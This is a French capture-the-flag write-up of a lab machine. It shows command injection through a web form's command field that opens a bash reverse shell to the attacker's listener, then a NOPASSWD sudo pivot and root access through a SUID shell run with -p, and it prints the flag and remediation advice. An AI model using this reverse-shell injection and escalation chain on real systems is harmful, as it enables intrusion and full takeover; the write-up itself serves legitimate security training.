




# H4ck3rz 2

Difficulté : Easy

Catégorie : Fuzz

## 1. Obtenir un shell interactif (reverse shell)

Le formulaire web envoie les commandes une par une et n'a pas de vrai terminal. Or sudo réclame un terminal ("a terminal is required"). Pour avoir un shell correct, je monte un reverse shell.

Je récupère mon IP sur le réseau (tun0) :

```bash
ip a
```

C'est cette IP que la cible doit joindre (tun0 : 10.8.0.97).

Listener côté Exegol :

```bash
nc -lvnp 4444
```



Déclenchement du reverse shell depuis le formulaire sur autre terminal :

```bash
curl -b cookie.txt http://10.10.0.31/portal.php --data-urlencode "command=bash -c 'bash -i >& /dev/tcp/10.8.0.97/4444 0>&1'" -d "sub=Execute"
```



Le listener reçoit la connexion, j'obtiens un shell interactif en tant que www-data.

Je passe ensuite à titouan grâce à la règle NOPASSWD :

```bash
sudo -u titouan bash
whoami
titouan
```

whoami pour vérifier que je suis bien devenu titouan.

## 2. Recherche d'une faille pour devenir root

Je cherche les binaires avec le bit SUID :

```bash
find / -perm -4000 2>/dev/null
```

```
/home/titouan/42sh
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
...
```

La plupart sont des SUID normaux, présents sur tout Linux. Mais /home/titouan/42sh, un binaire perso appartenant à root avec le bit SUID.

```bash
ls -la /home/titouan/42sh
# -rwsrwsrwt 1 root root 1298416 Aug 27 09:35 /home/titouan/42sh
```

Le s à la place du x confirme le SUID, propriétaire root.

## 3. Le problème : le 42sh abandonne les droits root

En lançant le 42sh et en tapant id dedans, je reste titouan :

```bash
/home/titouan/42sh
id
# uid=1000(titouan) gid=1000(titouan) groups=1000(titouan)
```

Le 42sh est un clone de bash. Comme bash, il a une sécurité intégrée, lancé en SUID root, il abandonne automatiquement les droits root au démarrage et redescend en utilisateur normal.

## 4. Contournement avec l'option -p et récupération du root

bash ont une option -p (privileged) qui permet de garder les droits. C'est une technique classique référencée sur GTFOBins pour les shells SUID.

Je lance donc le 42sh avec -p, puis je cherche le flag une fois root :

```bash
sudo -u titouan /home/titouan/42sh -p
id
# uid=1000(titouan) gid=1000(titouan) euid=0(root) egid=0(root) groups=0(root),1000(titouan)
find / -name root.txt 2>/dev/null
# /root/root.txt
```



Je suis bien en root et on a trouvé l'emplacement du root.txt :

```bash
cat /root/root.txt
```



**Flag : EPI{K0l0r5_4nD_f4nCY_pR0Mp7_4r3_R34lLY_n3C3554Ry}**

## Failles trouvées

- **Un shell appartenant à root avec le bit SUID** : le fichier 42sh de titouan a le bit SUID, donc il tourne avec les droits de root peu importe qui le lance. Normalement bash abandonne ces droits tout seul par sécurité, mais l'option -p empêche ça. Donc au final, n'importe qui peut lancer ce shell et devenir root direct.

## Comment corriger ça

Il ne faut jamais mettre le bit SUID sur un shell. Un shell peut faire absolument tout (lire, écrire, lancer d'autres commandes), donc lui donner les droits de root revient à donner root à tout le monde.

## Ce que j'ai appris

Un challenge peut reprendre exactement le même point d'entrée qu'un autre et juste demander d'aller plus loin. Ici l'accès initial était identique à H4ck3rz, la vraie nouveauté c'était d'aller jusqu'à root.

Le bit SUID fait tourner un programme avec les droits de son propriétaire, pas ceux de la personne qui le lance. C'est utile pour des petits programmes comme passwd, mais dangereux sur un shell.

Un shell SUID ne donne pas forcément root tout de suite, bash abandonne ses droits root par sécurité au démarrage. L'option -p empêche cet abandon, c'est elle qui a tout débloqué ici.

Un reverse shell sert à avoir un vrai terminal interactif, ce qui est nécessaire pour des commandes comme sudo qui refusent de tourner sans terminal.